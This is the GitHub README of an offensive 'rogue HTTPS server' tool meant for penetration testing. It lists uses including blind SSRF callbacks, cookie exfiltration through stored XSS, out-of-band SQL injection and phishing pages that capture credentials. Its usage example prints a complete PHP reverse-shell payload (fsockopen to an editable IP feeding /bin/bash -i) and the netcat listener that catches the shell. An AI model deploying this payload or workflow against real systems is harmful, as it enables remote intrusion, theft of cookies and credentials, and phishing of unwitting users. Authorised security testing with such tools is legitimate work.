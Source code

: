 # rogue-https-server.py
Rogue HTTPS Server is a tool that allows you to create a Python 3.10/3.11 HTTPS/SSL server to receive encrypted connections, serve content, and run PHP scripts.

![1-photo](https://github.com/ajacobhack/rogue-https-server/assets/99199970/79a9f034-23a8-4853-bd9e-d4a245464b92)


Rogue HTTPS Server is a powerful and easy-to-use tool that allows you to create an HTTPS/SSL server with TLS in Python 3.10/3.11, primarily intended for ethical hacking tests that require a server with encrypted connections that may be able to connect to applications websites strictly configured for HTTPS traffic. It provides additional options such as assigning a free DNS to the specified IP address, automatic pem certificate creation, static server, and PHP file execution.

### **Features**

- **HTTPS/SSL Server**: Creates a TCP/IP server at the specified IP address and port to listen for HTTPS/SSL connections, including 443.
- **Free DNS Support**: Assign a free subdomain to the IP address using DuckDNS to access your server more conveniently.
- **PHP code execution**: Executes PHP code on the server to perform dynamic and custom actions in your web applications.
- **Static File Management**: Serve static files, such as HTML, CSS, JavaScript, images and more, to display content on your server.

### Vulnerabilities that help identify, check and execute:
- Security configuration errors: destination server connects via https to external servers with self-signed certificates or no dns.
- External Service Interaction (DNS and HTTP): the target server/application can, due to a bad configuration, request external resources, instead of internal ones, through https and previous DNS resolution to any external server, in this case ours .
- Blind SSRF on the target server, which manages to connect via Out-Of-Band to our https server with dns, which could chain execution requests to internal resources.
- RCE PHP: If the target server or application can request resources from our server, it could execute a reverse PHP shell served by our server, achieving remote code execution.
- Stored XSS that when executed exfiltrates and sends cookies via HTTPS connection.
- Out-of-band SQL injection (OOB SQLi): an asynchronous SQL query can cause the server to perform out-of-band interactions with an external domain and server, ours.
- Phishing: HTTPS server with DNS could be used to serve cloned web pages to capture credentials.

## Use

1. Clone the Rogue HTTPS Server repository to your local machine.
    
     ```
     git clone https://github.com/ajacobhack/rogue-https-server.git
     ```
    
2. Navigate to the project directory: `cd rogue-https-server`.
3. Optional: If you want to assign free DNS using DuckDNS, make sure you have a DuckDNS subdomain and token.
4. Run the server using the following command:
    
     ```bash
     python3 rogue-https-server.py -i <IP_ADDRESS> -p <PORT> -s <SUBDOMAIN> -t <DUCKDNS_TOKEN>
     ```
    
     - `<IP_ADDRESS>`: The IP address on which you want the server to listen for incoming connections.
     - `<PORT>`: The port on which you want the server to listen for incoming connections.
     - `<SUBDOMAIN>` (optional): The subdomain you want to assign for free DNS using DuckDNS.
     - `<DUCKDNS_TOKEN>` (optional): The DuckDNS token needed to assign the subdomain.
5. The server will start listening for incoming connections on the specified IP address and port. If a DuckDNS subdomain and token is provided, the free DNS will be assigned using DuckDNS for the specified subdomain.
6. When an HTTP/HTTPS request is received, the server will respond as follows:
- If the request corresponds to an existing PHP file, the PHP code will be executed and the output will be sent to the client.
- If the request corresponds to an existing static file (HTML, CSS, JS, images, etc.), the content of the file will be sent to the client.
- If the request does not correspond to any existing file, a "404 Not Found" error response will be sent to the client.
- 
![2023-06-05 16_50_16-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/666c0bad-b23a-4ad6-a119-ac43246620b6)

![2023-06-05 16_51_54-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/a37a014d-e92b-4d76-adac-a4d6bb0db105)

![2023-06-05 16_52_31-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/e02c0e42-060d-4bfb-920e-9d285b10718b)


## Additional features

- **Automatic generation of PEM files**: If the server does not find the `cert.pem` and `key.pem` files in the working directory, it will automatically generate these files using OpenSSL.
- **Optional Free DNS Configuration**: You can provide a DuckDNS subdomain and token to assign free DNS using DuckDNS. This setting is optional and you can skip it if you don't want to use this functionality.

### **Example of use**

Suppose we want to run PHP code on the server and get an interactive shell connection to the server. Here is an example of how it can be achieved using the server:

1. Run the server at IP address **`127.0.0.1`** and port `443`:
    
     ```bash
     python3 rogue-https-server.py -i 127.0.0.1 -p 443
     ```
    
2. Create a PHP file with the following content and save it as **`shell.php`**:
    
     ```php
     <?php
     $sock = fsockopen("127.0.0.1", 4242); /*CHANGE IP and PORT*/
     $descriptors = array(
         0 => $sock,
         1 => $sock,
         2 => $sock
     );
     $process = proc_open('/bin/bash -i', $descriptors, $pipes);
     ?>
     ```
    
3. Open your web browser and visit **`https://127.0.0.1:443/shell.php`**.
4. In a separate terminal session, start a netcat server to listen on port **`4242`**:
    
     ```bash
     nc -lnvp 4242
     ```
    
5. When you access **`https://127.0.0.1:443/shell.php`** in your browser, the server will execute the PHP code and open a shell connection in the netcat session.

![shell php con exit](https://github.com/ajacobhack/rogue-https-server/assets/99199970/57864150-711f-405e-bc91-fbfbab172a6e)

### **Contribution**

We welcome your contributions to Rogue HTTPS Server! If you encounter any issues, have an idea for improvement, or want to add new features, feel free to open an issue or submit a pull request on the official repository.

### **License**

This project currently does not have an open license.

### **Thanks**

I want to thank the community of developers and contributors who have made this project possible. Your contributions and feedback have been instrumental in improving Rogue HTTPS Server and providing a useful and reliable tool.

### **Legal warning**

Rogue HTTPS Server is a tool designed to be used for development and ethical purposes only. We are not responsible for any misuse of this tool. Make sure to comply with local laws and regulations when using Rogue HTTPS Server.
